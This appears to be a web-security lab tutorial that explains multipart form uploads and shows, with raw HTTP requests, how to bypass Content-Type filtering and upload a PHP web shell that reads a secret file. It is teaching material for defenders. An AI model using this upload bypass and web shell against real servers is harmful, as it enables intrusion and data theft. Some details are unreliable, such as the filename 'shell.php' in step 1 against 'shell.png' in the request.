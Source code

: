 When submitting HTML forms, the browser typically sends the provided data in `POST` HTTP request with the `Content-Type` value of `application/x-www-form-url-encoded`. Most of the time this works, however it isn't suitable for sending large amounts of binary data, such as an image or PDF file. In this case the `multipart/form-data` is more suitable.

Consider a form containing fields for uploading an image, providing a description of it, and entering your username. Submitting the form will result in a request like this:
```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.
```
Notice that the message body is split into separate parts for each of the form's inputs, where each part contains `Content-Disposition` header that provides basic information about the input field it relates to. These parts may also contain `Content-Type` header, which tells the server the MIME type of the data being submitted.

However, using `Content-Type` filtering alone isn't secure at all, specially if the server implicitly trusts the value of this header, as this can be bypassed entirely:
1. Using Burp Proxy, intercept the request. Observe that the `Content-Type` is set to `text/x-php` and `filename` parameter to `shell.php`
 ```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="shell.png"
Content-Type: text/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
2. Modify the contents of `Content-Type` to `image/jpeg` and `filename` to `shell.jpg` then click **Forward**.
```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="shell.jpg"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
3. Notice that the application allowed the file to be uploaded, all an attacker have to do is open the uploaded file in the browser and the web shell will be activated